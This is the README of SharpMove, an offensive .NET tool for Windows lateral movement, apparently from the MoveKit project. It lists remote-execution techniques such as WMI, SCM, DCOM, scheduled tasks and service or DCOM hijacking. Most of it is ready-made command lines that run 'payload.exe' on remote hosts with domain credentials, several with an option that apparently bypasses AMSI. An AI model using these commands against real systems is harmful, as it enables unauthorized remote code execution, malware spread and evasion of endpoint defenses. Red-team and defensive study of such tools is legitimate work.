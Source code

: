 
### SharpMove - .NET authenticated execution for remote hosts


#### Building
To compile open Visual Studio project and compile for release.

#### Options

  * WMI
  * SCM
  * DCOM (Multiple)
  * Task Scheduler
  * Service DLL Hijack
  * DCOM Server Hijack
  * Modify Scheduled Task
  * Modify Service binpath

```
SharpMove.exe action=query computername=remote.host.local query="select * from win32_process" username=domain\user password=password
```

```
SharpMove.exe action=create computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true username=domain\user password=password
```

```
SharpMove.exe action=executevbs computername=remote.host.local eventname=Debug amsi=true username=domain\\user password=password
```

```
SharpMove.exe action=taskscheduler computername=remote.host.local command="C:\windows\temp\payload.exe" taskname=Debug amsi=true username=domain\\user password=password
```

```
SharpMove.exe action=dcom computername=remote.host.local command="C:\windows\temp\payload.exe\" method=ShellBrowserWindow amsi=true
```

```
SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true
```

```
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
```

```
SharpMove.exe action=modschtask computername=remote.host.local command="C:\windows\temp\payload.exe" username=domain\user password=password taskname=TestTask
```

```
SharpMove.exe action=hijackdcom computername=remote.host.local clsid={40bdc4e5-d532-42e6-b667-1ab890fdebcf}
```

```
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```

Part of [MoveKit](https://github.com/0xthirteen/MoveKit)
       